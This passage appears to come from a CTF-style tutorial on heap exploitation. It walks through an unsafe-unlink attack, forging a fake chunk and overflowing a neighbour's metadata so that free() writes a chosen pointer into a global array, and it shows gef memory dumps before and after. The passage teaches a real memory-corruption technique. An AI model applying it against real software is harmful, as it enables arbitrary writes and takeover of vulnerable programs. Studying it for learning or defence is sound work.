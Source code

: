 So we can see our fake chunk at `0x25f5010`. We will now free the `0x25f50a0` chunk, and reallocate it to overflow the third chunks metadata. We will set the previous size to `0xa0` to point to our fake chunk, and clear out the previous in use bit:

```
gef➤  x/4g 0x602120
0x602120:    0x25f5010    0x0
0x602130:    0x25f50c0    0x25f50a0
gef➤  x/50g 0x25f5000
0x25f5000:    0x0    0x91
0x25f5010:    0x0    0xa0
0x25f5020:    0x602108    0x602110
0x25f5030:    0x0    0x0
0x25f5040:    0x0    0x0
0x25f5050:    0x0    0x0
0x25f5060:    0x0    0x0
0x25f5070:    0x0    0x0
0x25f5080:    0x31    0x0
0x25f5090:    0x0    0x21
0x25f50a0:    0x3535353535353535    0x3535353535353535
0x25f50b0:    0xa0    0x90
0x25f50c0:    0x3232323232320031    0x3232323232323232
0x25f50d0:    0x3232323232323232    0x3232323232323232
0x25f50e0:    0x3232323232323232    0x3232323232323232
0x25f50f0:    0x3232323232323232    0x3232323232323232
0x25f5100:    0x3232323232323232    0x3232323232323232
0x25f5110:    0x3232323232323232    0x3232323232323232
0x25f5120:    0x3232323232323232    0x3232323232323232
0x25f5130:    0x3232323232323232    0x32323232323232
0x25f5140:    0x0    0x20ec1
0x25f5150:    0x0    0x0
0x25f5160:    0x0    0x0
0x25f5170:    0x0    0x0
0x25f5180:    0x0    0x0
```

So now when we free the third chunk, it will think that the previous chunk is freed and it starts at `0x25f50b0 - 0xa0 = 0x25f5010`. Since we setup our fake chunk to pass the checks, it will unlink our chunk and write the address of `P->fd` (`0x602120 - 0x18 = 0x602108`) to `0x602120`:

```
gef➤  x/4g 0x602120
0x602120:    0x602108    0x0
0x602130:    0x0    0x25f50a0
gef➤  x/50g 0x25f5000
0x25f5000:    0x0    0x91
0x25f5010:    0x0    0x20ff1
0x25f5020:    0x602108    0x602110
0x25f5030:    0x0    0x0
0x25f5040:    0x0    0x0
0x25f5050:    0x0    0x0
0x25f5060:    0x0    0x0
0x25f5070:    0x0    0x0
0x25f5080:    0x31    0x0
0x25f5090:    0x0    0x21
0x25f50a0:    0x3535353535353535    0x3535353535353535
0x25f50b0:    0xa0    0x90
0x25f50c0:    0x3232323232320031    0x3232323232323232
0x25f50d0:    0x3232323232323232    0x3232323232323232
0x25f50e0:    0x3232323232323232    0x3232323232323232
0x25f50f0:    0x3232323232323232    0x3232323232323232
0x25f5100:    0x3232323232323232    0x3232323232323232
0x25f5110:    0x3232323232323232    0x3232323232323232
0x25f5120:    0x3232323232323232    0x3232323232323232
0x25f5130:    0x3232323232323232    0x32323232323232
```